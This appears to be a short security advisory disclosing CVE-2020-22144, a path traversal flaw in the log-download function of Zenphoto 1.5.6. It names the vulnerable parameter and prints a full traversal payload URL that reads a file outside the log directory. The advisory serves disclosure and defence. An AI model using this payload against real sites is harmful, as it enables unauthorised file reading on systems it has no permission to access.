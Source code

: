 ```yaml
---
cve: "CVE-2020-22144"
title: "Path traversal in Zenphoto v1.5.6 and prior"
date: 2020-02-10
tags:
- cve
- path traversal
- lfd
---
```

An issue in `/zp-core/admin-logs.php` of Zenphoto 1.5.6 allows attackers to perform a directory traversal and read arbitrary log files.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22144

<hr />

**Description:**  
The admin function allows to download log files from the local system that are not suppose to.

**Details:**  
File: `/zp-core/admin-logs.php`  
Parameter: `filename`

**Payload:**  
```
/zp-core/admin-logs.php?action=download_log&page=logs&tab=setup&filename=../../../../../../../../../var/log/alternatives&XSRFToken=bcf89608fdaaa5e293ccd5f83d1614f05bfcbaae
```

**PoC:**  
![cve-2020-22144 Zenphoto path traversal](/images/cve-2020-22144.png)
